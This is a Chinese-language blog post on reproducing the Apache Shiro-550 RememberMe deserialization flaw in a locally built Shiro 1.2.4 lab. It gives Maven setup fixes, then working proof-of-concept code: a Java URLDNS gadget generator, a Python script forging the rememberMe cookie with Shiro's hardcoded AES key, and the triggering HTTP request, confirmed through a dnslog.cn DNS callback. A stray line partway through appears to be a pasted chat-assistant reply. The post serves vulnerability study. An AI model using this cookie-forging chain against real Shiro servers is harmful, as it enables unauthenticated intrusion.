









+++
date = '2026-05-19T11:45:00+08:00'
draft = false
title = 'Shiro-550'

math = false

categories = ["java"]
tags = ["java-security", "deserialization", "Shiro"]

+++

# Shiro-550 Study 1

## 0x00 引言：从历史源码还原真实靶场

在开展 Java 反序列化漏洞研究时，Apache Shiro-550（RememberMe 反序列化）由于其经典的触发链条和广泛的影响面，常被作为首选分析目标。为了深入调试 `AbstractRememberMeManager` 等核心逻辑，直接运行官方历史漏洞源码比使用 Docker 靶场具有更高的分析价值。

然而，Shiro 1.2.4 发布于十多年前。在现代开发环境中编译并运行此类“上古”项目时，会面临由构建工具链版本、JDK 规范变更以及历史依赖下线带来的一系列阻碍。本文作为本系列首篇，将系统梳理从源码拉取到 Web 靶场成功启动全过程中遇到的核心“暗坑”，并提供完整的本地调试环境搭建指南。

## 0x01 环境搭建与配置

本章节将完整记录 Shiro 1.2.4 漏洞靶场的配置全流程。核心思路为：剥离不必要的历史构建校验，修复已失效的依赖库，并引入内嵌容器以实现一键断点调试。

### 1. 代码获取

在拉取 Apache Shiro 官方仓库时，常遇到 `schannel: server closed abruptly` 或 `early EOF` 等网络中断报错。该错误源于处理极大体积仓库时的连接重置。对于漏洞研究而言，无需追溯非相关的历史提交。采用单一分支的深度克隆（Shallow Clone）可极大缩减传输体积，实现稳定拉取：

```bash
git clone --depth 1 --branch shiro-root-1.2.4 https://github.com/apache/shiro.git
```



### 2. 编译链重构

将项目导入 IDE（推荐使用 JDK 8 环境）后，会遇到大量 Maven 插件报错。最致命的错误来自于构建生命周期中强校验 JDK 1.6 的遗留机制。

**解除编译限制**：在目标执行模块（`samples/web/pom.xml`）中，通过将 `maven-toolchains-plugin` 插件的生命周期阶段置为空，可直接绕过 JDK 1.6 的限制：

```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-toolchains-plugin</artifactId>
    <executions>
        <execution>
            <id>default</id>
            <phase>none</phase> <!-- 核心：强行设置为 none，绕过校验 -->
        </execution>
    </executions>
</plugin>
```

*注：对于根目录 `pom.xml` 中出现的 `gmaven-runtime-1.7` 或 `<reporting>` 等废弃文档/报表插件的飘红提示，可直接进行物理删除/注释，这能够显著加快 IDE 对代码的解析速度。*

### 3. 靶场启动：内嵌容器与 JSP 引擎修复

为实现便捷的源码调试，本研究在 `samples/web/pom.xml` 中引入了 `tomcat7-maven-plugin`，并修复了历史组件缺失导致的视图层解析错误。

**引入 Tomcat 插件**： 在 `<build><plugins>` 节点下注入以下配置，实现免安装的内嵌服务：

```xml
<plugin>
    <groupId>org.apache.tomcat.maven</groupId>
    <artifactId>tomcat7-maven-plugin</artifactId>
    <version>2.2</version>
    <configuration>
        <port>8088</port>
        <path>/</path>
    </configuration>
</plugin>
```

**修复 JSTL 解析异常**： 原生依赖在使用内嵌 Tomcat 启动并访问主页时，会抛出 `JasperException: The absolute uri: [http://java.sun.com/jsp/jstl/core](http://java.sun.com/jsp/jstl/core) cannot be resolved`。需要定位至 `<dependencies>` 区域，将原有的单薄 `jstl` 依赖替换为携带确定版本号的标准双包组合：

```xml
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>jstl</artifactId>
    <version>1.2</version>
</dependency>
<dependency>
    <groupId>taglibs</groupId>
    <artifactId>standard</artifactId>
    <version>1.1.2</version>
</dependency>
```

### 4. 验证与测试

完成上述环境修剪与依赖补齐后，重新载入 Maven 依赖，并在 IDE 中以 Debug 模式执行 `tomcat7:run`。



当控制台输出 `Starting ProtocolHandler ["http-bio-8088"]` 时，访问 `http://localhost:8088` 即可看到靶场登录界面。在输入框中任意输入凭证并勾选 "Remember Me" 发起登录，若 HTTP 响应头中成功返回 `Set-Cookie: rememberMe=deleteMe;`，则证明核心鉴权拦截器已正常运作。



点击log in



至此，一个支持完美断点追踪的 Shiro 历史漏洞源码环境已构建完毕，为后续反序列化执行流的深度剖析奠定了基础。

以下是为你续写的博客内容。文案已严格遵循学术化、客观化的行文标准，移除了所有的主观代词，并跳过了基础的抓包工具配置过程，直接聚焦于 URLDNS 链的构造与漏洞复现逻辑。

+++

## 0x02 基于 URLDNS 链的漏洞验证与复现

在确认本地 Shiro 靶场环境正常运行后，本研究选用 URLDNS 作为反序列化探测的首选 Gadget 链。由于 Shiro-550 属于典型的盲打漏洞（Blind Vulnerability），服务器在触发反序列化后通常不会在 HTTP 响应报文中回显执行结果。

URLDNS 链的绝对优势在于其**完全依赖 Java SE 原生基础库（`rt.jar`）**，无需目标环境加载任何第三方依赖（如 Commons Collections）。当反序列化被触发时，该链条会迫使目标机器向指定的域名发起 DNS 寻址请求，因此极其适合结合 OOB（带外数据记录）平台进行漏洞连通性的无损验证。

### 1. 序列化流的构造与防误触机制

URLDNS 链的触发核心在于 `java.util.HashMap` 与 `java.net.URL` 的内部机制。当 `HashMap` 被反序列化并重建哈希表时，会调用键值对象的 `hashCode()` 方法。若键值为 `URL` 对象且其 `hashCode` 属性为 `-1`，则会触发底层 `URLStreamHandler` 发起真实的 DNS 解析。

首先获得一个DNSLOG的domain

http://www.dnslog.cn/



为生成原生的序列化字节流，本研究编写了以下 Java 构造逻辑：

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNSGenerator {
    public static void main(String[] args) throws Exception {
        String dnslog = "http://epq0c9.dnslog.cn"; // 替换为真实的 DNSLog 地址
        HashMap<URL, String> hashMap = new HashMap<>();
        URL url = new URL(dnslog);

        // 核心防御机制：反射修改 hashCode 初始值，防止在 payload 构造阶段触发本地 DNS 解析
        Field hashCodeField = URL.class.getDeclaredField("hashCode");
        hashCodeField.setAccessible(true);
        hashCodeField.set(url, 12345);

        hashMap.put(url, "test-data");

        // 重置触发位：确保目标服务器在反序列化时能够顺利进入 DNS 寻址分支
        hashCodeField.set(url, -1);

        FileOutputStream fos = new FileOutputStream("urldns.ser");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(hashMap);
        oos.close();
    }
}
```

执行上述代码后，工程目录下将生成标准的 Java 序列化文件 `urldns.ser`。

### 2. Shiro 密码学协议的逆向封装

Shiro 1.2.4 在处理 `rememberMe` 字段时，采用 AES-CBC 模式进行对称加密。为了使恶意序列化流能够顺利通过 Shiro 的拦截器校验，必须完全遵循其底层的封装规范：**随机生成 16 字节的 IV -> 执行 PKCS7/PKCS5 填充加密 -> 将 IV 拼接到密文头部 -> 整体 Base64 编码**。

本研究采用 Python 3 结合 `pycryptodome` 库构建了自动化的封装脚本，以替代繁琐的 Java 内存拼接操作：

```python
import base64
import os
import sys
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

ser_filename = "urldns.ser"

with open(ser_filename, "rb") as f:
    serialized_data = f.read()

# Shiro 1.2.4 默认的硬编码 AES 密钥
base64_key = "kPH+bIxk5D2deZiIxcaaaA=="
key_bytes = base64.b64decode(base64_key)
iv_bytes = os.urandom(16)

# 初始化 AES-CBC 加密器并执行块填充
cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)
padded_data = pad(serialized_data, AES.block_size, style='pkcs7')
ciphertext = cipher.encrypt(padded_data)

# 内存重组：IV 必须位于密文绝对头部
assembled_payload = iv_bytes + ciphertext
remember_me_cookie = base64.b64encode(assembled_payload).decode('utf-8')

print(f"rememberMe={remember_me_cookie}")
```

### 3. 漏洞触发与带外验证

首先我们先抓一个包

发起登录请求



然后重放后，跑一下脚本，将生成的base64字符串粘贴到remeberMe中



获取到最终生成的 Cookie 字符串后，即可向本地靶场发起探测。

需要强调的是，Shiro-550 属于**前置认证漏洞（Pre-Auth RCE）**。由于 `AbstractRememberMeManager` 的解密与反序列化行为发生在其身份校验逻辑之前，因此无需获取系统有效凭证，向系统内的任意公开端点（如 `/` 根路径）发送附带恶意 Cookie 的 HTTP 请求即可触发漏洞：

```http
GET / HTTP/1.1
Host: localhost:8080
Cookie: rememberMe=[Python生成的Base64 Payload];
```

注意，观察原请求包，其中的cookie中还有一个sessionid做验证，其原理为，如果有sessionid的话，就不会用remeberMe来做校验，所以我们需要把它删掉



发送该请求后，观察 HTTP 响应报文，通常会收到 `Set-Cookie: rememberMe=deleteMe;`。此响应表明 Shiro 已完成了反序列化操作，但在尝试将解析出的 `HashMap` 对象强制转换为预期的 `PrincipalCollection` 身份集合时抛出了类型转换异常，进而触发了清除 Cookie 的容错机制。



随后，检查 DNSLog 平台的访问日志。若成功记录到针对 `xa6m73.dnslog.cn` 的 A 记录查询，则从底层密码学解密到原生反序列化执行的完整攻击链路已被确实验证打通。

## 0x03 总结与后续研究展望

本文成功完成了 Shiro 1.2.4 历史漏洞靶场的本地构建，并剥离了冗余的编译校验机制。通过构造原生的 URLDNS 序列化流并运用独立编写的 Python 密码学脚本进行 AES-CBC 封装，本研究打通了从 Payload 注入到 DNS 带外探测（OOB）的完整漏洞验证链路。在测试过程中，特别明确了剔除 HTTP 请求头中 `JSESSIONID` 以强制触发 `rememberMe` 校验分支的关键前置条件，进一步印证了 Shiro-550 作为前置认证漏洞（Pre-Auth RCE）的高危特性与盲打验证逻辑。

然而，带外验证成功仅表明漏洞反序列化入口的存在。要建立对该框架安全缺陷的系统性认知，必须深入源码进行动态调试。

在下一篇研究中，将全面转向白盒源码剖析阶段。后续研究将依托本文搭建的调试环境，通过断点步进追踪 `AbstractRememberMeManager` 的执行流，还原 Shiro 框架解析 Cookie、截取 IV 向量、执行 AES 解密的完整生命周期；并深入解析反序列化入口点 `readObject()` 的调用栈轨迹，从代码级逻辑揭示该经典漏洞的底层成因与防御修复本质。